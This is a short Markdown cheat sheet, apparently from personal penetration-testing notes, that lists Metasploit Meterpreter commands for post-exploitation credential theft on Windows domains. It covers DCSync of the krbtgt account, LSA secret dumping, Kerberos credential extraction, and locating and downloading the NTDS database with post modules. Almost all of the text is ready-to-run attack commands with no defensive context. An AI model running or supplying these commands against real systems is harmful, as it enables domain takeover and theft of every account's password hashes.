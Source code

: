 # Metasploit

## 01 - DC Synchronization

### 1.1 - Kiwi

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

### 2.1 - Kiwi

`meterpreter > lsa_dump_secrets`

## 03 - Kerberos

### 3.1 - Kiwi

`meterpreter > creds_kerberos`

## 04 - NTDS

### 4.1 - Meterpreter API Commands

```
meterpreter > reg enumkey [-r <domain_controller_IP>] -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -v "DSA Database file" [-w <64>]
```

### 4.2 - Post Module

```
meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/Windows/Archive Files/Zip|Windows Archive Files]]